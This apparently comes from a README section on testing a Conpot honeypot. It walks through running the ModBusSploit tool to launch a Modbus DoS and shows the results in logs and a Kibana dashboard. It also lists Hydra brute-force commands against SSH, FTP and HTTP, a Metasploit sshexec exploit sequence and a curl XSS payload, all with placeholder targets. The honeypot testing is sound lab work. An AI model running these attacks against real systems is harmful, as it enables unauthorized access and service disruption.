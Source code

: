 #### **ModBusSploit 🛠️**

In this section, we will perform tests on the **[ModBusSploit](https://github.com/C4l1b4n/ModBusSploit/)** tool to simulate attacks on the Conpot honeypot with protocols like Modbus.

**Step 1: Clone the ModBusSploit repository:**
```sh
git clone https://github.com/C4l1b4n/ModBusSploit/
cd ModBusSploit
```

**Step 2: Install the required dependencies:**
```sh
pip install -r requirements.txt
```

**Step 3: Run the script**
```sh
python3 start.py
```

**Screenshots:**

1. **Start Dos Attack:**
<img width="537" alt="modbus" src="https://github.com/user-attachments/assets/63b1e25a-a938-4b65-8821-80e0d10b0af9" />

2. **Result on conpot log:**
![conpot_log](https://github.com/user-attachments/assets/e33cb1ab-e89c-4314-b395-9e63147b54b8)

3. **Result on Kibana dashboard:**
<img width="1188" alt="kibana_dash" src="https://github.com/user-attachments/assets/de9c841b-830d-42d9-b778-61c270cc9c8c" />

<br>
<br>
<br>

### **Brute force attack examples using Hydra:**
```sh
hydra -l <utente> -P <file_wordlist> ssh://<indirizzo-IP>
hydra -l <utente> -P <file_wordlist> ftp://<indirizzo-IP>
hydra -l <utente> -P <file_wordlist> http-get://<indirizzo-IP>
```

### **Exploitation example using Metasploit:**
```sh
msfconsole
use exploit/linux/ssh/sshexec
set RHOST <indirizzo-IP>
set USERNAME <utente>
set PASSWORD <password>
exploit
```

### **Example of an XSS attack using curl:**
```sh
curl -X POST -d "username=<script>alert('XSS')</script>" http://<indirizzo-IP>/login
```

